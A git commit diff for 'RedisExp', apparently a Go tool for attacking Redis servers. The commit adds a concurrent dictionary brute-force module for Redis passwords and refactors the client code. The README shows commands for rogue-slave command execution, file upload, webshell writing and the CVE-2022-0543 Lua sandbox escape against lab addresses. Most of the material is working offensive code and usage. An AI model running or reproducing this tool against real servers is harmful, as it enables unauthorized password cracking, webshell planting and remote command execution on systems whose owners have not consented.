

更新redis爆破密码

Changed region(s): [[0.0, 0.0, 0.4992, 0.843], [0.0, 0.8731, 0.2808, 0.9634], [0.4992, 0.0301, 0.5928, 0.0903]]

diff --git a/pkg/Redis.go b/pkg/Redis.go
@@ -4,54 +4,41 @@ import (
 	"context"
 	"fmt"
 	"github.com/go-redis/redis/v8"
-	"log"
-	"os"
 	"regexp"
 	"strings"
 	"time"
 )
 
 var (
-	Rdb                       *redis.Client
-	Lhost                     string
-	Lport                     string
-	Rhost                     string
-	Rport                     string
-	PWD                       string
-	redisDir, redisDbfilename string
+	Rdb             *redis.Client
+	Lhost           string
+	Lport           string
+	Rhost           string
+	Rport           string
+	redisDir        string
+	redisDbFilename string
 )
 
 // RedisClient 连接 Redis
-func RedisClient() {
+func RedisClient(pwd string) (err error) {
+
 	Rdb = redis.NewClient(&redis.Options{
 		Addr:     fmt.Sprintf("%s:%s", Rhost, Rport),
-		Password: PWD, // 密码认证
+		Password: pwd, // 密码认证
 	})
 
 	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
 
 	defer cancel()
 
-	_, err := Rdb.Ping(ctx).Result()
+	pong, err := Rdb.Ping(ctx).Result()
 	if err != nil {
-		if strings.Contains(err.Error(), "context deadline exceeded") {
-			Info("Redis 连接超时")
-			os.Exit(0)
-		}
-
-		Err(err)
-
-		if strings.Contains(err.Error(), "NOAUTH Authentication required.") {
-			Info("Redis 需要密码认证")
-			os.Exit(0)
-		}
-		if strings.Contains(err.Error(), "ERR invalid password") {
-			log.Println("Redis 认证密码错误!")
-			os.Exit(0)
-		}
-
-		return
+		return err
 	}
+	if strings.Contains(pong, "PONG") {
+		redisVersion()
+	}
+	return nil
 
 }
 
@@ -75,21 +62,24 @@ func RedisCmd(cmd string) interface{} {
 }
 
 // 获取 Redis 基本信息
-func redisVersion() {
-	Info("获取 Redis 基本信息")
+func redisVersion() bool {
 	info := RedisCmd("info")
-	os := redisRe(info, "os:.*")
-	version := redisRe(info, "redis_version:.*")
-	Success(os)
-	Success(version)
-	dir := RedisCmd("config get dir")
-	redisDir = redisString(dir)[4:]
-	Success(redisDir)
+	if strings.Contains(info.(string), "redis_version") {
+		Info("获取 Redis 基本信息")
+		os := redisRe(info, "os:.*")
+		version := redisRe(info, "redis_version:.*")
+		Success(os)
+		Success(version)
+		dir := RedisCmd("config get dir")
+		redisDir = redisString(dir)[4:]
+		Success(redisDir)
 
-	file := RedisCmd("config get dbfilename")
-	redisDbfilename = redisString(file)[11:]
-	Success(redisDbfilename)
-
+		file := RedisCmd("config get dbfilename")
+		redisDbFilename = redisString(file)[11:]
+		Success(redisDbFilename)
+		return true
+	}
+	return false
 }
 
 // 正则

diff --git a/pkg/app.go b/pkg/app.go
@@ -3,6 +3,7 @@ package pkg
 import (
 	"github.com/urfave/cli/v2"
 	"os"
+	"strings"
 )
 
 var (
@@ -12,9 +13,12 @@ var (
 	upload   bool
 	lua      bool
 	getshell bool
+	brute    bool
+	pwdf     string
+	PWD      string
 )
 
-func Run() {
+func Help() {
 	app := &cli.App{
 		Name:  "Redis Exp",
 		Usage: "Redis 利用工具",
@@ -114,18 +118,60 @@ func Run() {
 				Usage:       "备份写 Webshell",
 				Destination: &getshell,
 			},
+
+			&cli.BoolFlag{
+				Name:        "brute",
+				Value:       false,
+				Usage:       "爆破密码",
+				Destination: &brute,
+			},
+			&cli.StringFlag{
+				Name:        "pwdf",
+				Usage:       "密码字典",
+				Destination: &pwdf,
+			},
 		},
 		Action: func(c *cli.Context) error {
+			Run()
+			return nil
+		},
+	}
 
-			if Rhost == "" || Lhost == "" {
-				Info("靓仔查看下帮助吧")
-				os.Exit(0)
-			} else {
-				RedisClient()
-				redisVersion()
+	err := app.Run(os.Args)
+	if err != nil {
+		Err(err)
+		return
+	}
+}
+
+func Run() {
+	if Rhost == "" {
+		Info("靓仔查看下帮助吧")
+		os.Exit(0)
+	} else {
+		err := RedisClient(PWD)
+		if err != nil {
+			if strings.Contains(err.Error(), "context deadline exceeded") {
+				Info("Redis 连接超时")
 			}
+
+			//Err(err)
+
+			if strings.Contains(err.Error(), "NOAUTH Authentication required.") {
+				Info("Redis 需要密码认证")
+			}
+			if strings.Contains(err.Error(), "ERR invalid password") {
+				Info("Redis 认证密码错误!")
+			}
+		}
+
+		if err == nil {
 			switch {
 			case exec:
+				if Lhost == "" {
+					Info("缺少 Lhost 参数")
+					os.Exit(0)
+				}
 				if console {
 					RedisSlave()
 					loopCmd("exec")
@@ -141,8 +187,8 @@ func Run() {
 				break
 
 			case upload:
-				if Rfile == "" || Lfile == "" {
-					Info("未设置  rfile | lfile 参数上传不了哦")
+				if Rfile == "" || Lfile == "" || Lhost == "" {
+					Info("rfile | lfile | lhost 参数不能为空")
 					os.Exit(0)
 				}
 				RedisUpload()
@@ -164,14 +210,17 @@ func Run() {
 				GetShell()
 				break
 			}
-
-			return nil
-		},
+		}
 	}
 
-	err := app.Run(os.Args)
-	if err != nil {
-		Err(err)
-		return
+	if brute {
+		if pwdf == "" {
+			Info("缺少字典参数 -pwdf")
+			os.Exit(0)
+		}
+		readPass(pwdf)
+		brutePWD()
+		os.Exit(0)
 	}
+
 }

diff --git a/pkg/auth.go b/pkg/auth.go
@@ -1,0 +1,69 @@
+package pkg
+
+import (
+	"bufio"
+	"fmt"
+	"io"
+	"os"
+	"strings"
+	"sync"
+)
+
+var (
+	data []string
+	wg   sync.WaitGroup
+)
+
+// 爆破密码
+func brutePWD() {
+
+	ch := make(chan struct{}, 1)
+	for _, v := range data {
+
+		wg.Add(1)
+		ch <- struct{}{}
+		go func() {
+			defer wg.Done()
+			err := RedisClient(v)
+			if err == nil {
+				Info("成功爆破到 Redis 密码：" + v)
+				os.Exit(0)
+			} else if strings.Contains(err.Error(), "ERR Client sent AUTH, but no password is set") {
+				Info("存在未授权 Redis , 不需要输入密码")
+				os.Exit(0)
+			} else {
+				Err(err)
+			}
+			<-ch
+		}()
+	}
+
+	wg.Wait()
+	Info("未发现 Redis 密码")
+
+}
+
+// 读取文件
+func readPass(file string) {
+	f, err := os.Open(file)
+	if err != nil {
+		Err(err)
+		os.Exit(0)
+	}
+	defer f.Close()
+
+	r := bufio.NewReader(f)
+	for {
+		var i string
+		line, err := r.ReadString('\n')
+		i = strings.Replace(line, "\r\n", "", -1)
+		if err == io.EOF {
+			data = append(data, i)
+			return
+		}
+		if err != nil {
+			fmt.Println(err)
+		}
+		data = append(data, i)
+	}
+}

diff --git a/main.go b/main.go
@@ -6,7 +6,7 @@ import (
 )
 
 func main() {
-	logo := `					      @yuyan-sec
+	logo := `
 ██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗ 
 ██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
 ██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
@@ -15,5 +15,5 @@ func main() {
 ╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝
 `
 	fmt.Println(logo)
-	pkg.Run()
+	pkg.Help()
 }

diff --git a/pkg/slave.go b/pkg/slave.go
@@ -78,7 +78,7 @@ func CloseSlave(s string) {
 	Info(dir)
 	Success(RedisCmd(dir))
 
-	db := fmt.Sprintf("config set dbfilename %v", redisDbfilename)
+	db := fmt.Sprintf("config set dbfilename %v", redisDbFilename)
 	Info(db)
 	Success(RedisCmd(db))
 }

diff --git a/pkg/getshell.go b/pkg/getshell.go
@@ -54,7 +54,7 @@ func GetShell() {
 	Info(dir2)
 	Success(RedisCmd(dir2))
 
-	db := fmt.Sprintf("config set dbfilename %v", redisDbfilename)
+	db := fmt.Sprintf("config set dbfilename %v", redisDbFilename)
 	Info(db)
 	Success(RedisCmd(db))
 

diff --git a/README.md b/README.md
@@ -46,7 +46,7 @@ RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c who
 RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
 ````
 
-![1](images\1.png)
+![1](images/1.png)
 
 文件上传：
 
@@ -54,27 +54,37 @@ RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -conso
 RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
 ```
 
-![2](images\2.png)
+![2](images/2.png)
 
 
 
 #### 备份写 Webshell
 
 ```
-RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -shell
+RedisExp.exe -rhost 192.168.211.128 -shell
 ```
 
-![3](images\3.png)
+![3](images/3.png)
 
 
 
 #### Lua沙盒绕过命令执行 CVE-2022-0543
 
 ```
-RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -lua -console
+RedisExp.exe -rhost 192.168.211.130 -lua -console
 ```
 
-![4](images\4.png)
+![4](images/4.png)
+
+
+
+#### 爆破 Redis 密码
+
+```
+RedisExp.exe -r 192.168.211.128 -brute -pwdf ../pass.txt
+```
+
+![4](images/5.png)
 
 
 
@@ -82,7 +92,7 @@ RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -lua -console
 
 本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！
 
-- https://github.com/tporadowski/redis
+- https://github.com/zyylhn/redis_rce
 - https://github.com/0671/RabR
 - https://github.com/r35tart/RedisWriteFile
 
